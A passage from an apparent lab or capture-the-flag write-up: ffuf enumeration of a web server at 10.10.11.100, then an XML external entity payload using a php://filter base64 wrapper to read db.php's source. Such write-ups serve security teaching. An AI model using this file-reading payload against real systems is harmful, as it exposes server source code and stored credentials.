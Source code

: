 ```Encoded data being sent using curl.
  <tr>
    <td>CWE:</td>
    <td>test</td>
  </tr>
  <tr>
    <td>Score:</td>
    <td>test</td>
  </tr>
  <tr>
    <td>Reward:</td>
    <td>test</td>
  </tr>
</table>

```
This showed that the service was vulnerable to local file inclusion (LFI)

The tester used the ffuf tool to discover the different web pages. Amoung others, the db.php file was found.


```
┌─[rang3r@parrot]─[~]
└──╼ $ffuf -w '/home/rang3r/Documents/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt' -u http://10.10.11.100/FUZZ -e .php -ic 

<snip>

resources               [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 40ms]
assets                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 35ms]
portal.php              [Status: 200, Size: 125, Words: 11, Lines: 6, Duration: 37ms]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 32ms]
.php                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 3036ms]
db.php                  [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 34ms]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 33ms]

<snip>
                        [Status: 200, Size: 25169, Words: 10028, Lines: 389, Duration: 34ms]
:: Progress: [163260/163260] :: Job [1/1] :: 1027 req/sec :: Duration: [0:02:34] :: Errors: 0 ::

```


The tester viewed the db.php file using a modified version of the payload. As the file was a php file it needed to be encoded in base64, as the page contains characters that break the XML format.
The tester used the php wrapper "php://filter/convert.base64-encode/" to fetch in the file and return it in base64.


```Unencoded data
<?xml  version="1.0" encoding="ISO-8859-1"?>
	<!DOCTYPE email [
 	<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=db.php">
	]>
		<bugreport>
		<title>&test;</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport>
```

